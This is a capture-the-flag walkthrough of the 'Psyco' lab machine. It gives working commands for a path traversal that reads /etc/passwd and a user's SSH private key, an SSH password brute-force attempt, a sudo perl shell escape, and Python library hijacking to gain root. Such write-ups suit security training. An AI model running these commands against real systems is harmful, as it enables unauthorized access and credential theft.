 # Psyco

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Exploring Web Page

We see that it appears to be a web page, however, I've noticed that at the bottom left there's an "ERROR" text along with a possible username "Luisillo"

![alt text](Imagenes/Psyco_0.png)

Nevertheless, I'm going to do a more thorough enumeration by listing possible directories.


```ruby
gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -r -x php 
```

![alt text](Imagenes/Psyco_1.png)

Apparently, there's nothing interesting except for an "index.php" file, so I'm going to try if I can find a path traversal that points to the /etc/passwd file

```ruby
sudo wfuzz -c --hl=62 -w SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 'http://172.17.0.2/index.php?FUZZ=../../../../../../../../../etc/passwd'
```

After waiting for a while, I found that it works for the word "secret"
![alt text](Imagenes/Psyco_2.png)

Therefore, if we make a curl request adding secret, we can obtain the /etc/passwd file

```ruby
curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../etc/passwd"
```

![alt text](Imagenes/Psyco_3.png)

We find several users vaxei and luisillo and try to figure out the password with the "Hydra" tool

```ruby
sudo hydra -l vaxei -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
```
![alt text](Imagenes/Psyco_4.png)

However, we see that we don't find the password. Lastly, I'm going to try if I can point to another specific file /home/vaxei/.ssh/id_rsa to obtain the rsa key of some user, in this case vaxei

```ruby
curl -s --path-as-is "http://172.17.0.2/index.php?secret=../../../../../../../../../../../../home/vaxei/.ssh/id_rsa"
```

![alt text](Imagenes/Psyco_5.png)

Finally, we see how we can display the key to later use it to access through the ssh service.

## Intrusion

Using the following command, we can try to access the ssh service

```ruby
sudo ssh -i id_rsa vaxei@172.17.0.2
```
Once we have accessed, we're going to see if we can escalate privileges. For this, I'm going to use the following command:

```ruby
sudo -l
```

We obtain the following:
![alt text](Imagenes/Psyco_6.png)

It can be seen that I can execute perl as the user luisillo, therefore using GTOBINS we can put the following command to use a bash.

```ruby
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
![alt text](Imagenes/Psyco_7.png)

In the same way, I'm going to check if I can continue escalating privileges towards the "root" user. For this, I execute the command sudo -l again 

![alt text](Imagenes/Psyco_8.png)

It seems that I can execute a python file called "paw.py" as root, so I'm going to see what it contains.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()

```

It seems that when we execute it, it gives an error because it can't find the subprocess.py file.

![alt text](Imagenes/Psyco_9.png)

We create the subprocess.py file with the following content to execute a bash:

```python
import os; os.system("/bin/sh")
```

Finally, we execute the command to escalate privileges as root:

```ruby
sudo -u root /usr/bin/python3 /opt/paw.py
```

![alt text](Imagenes/Psyco_10.png)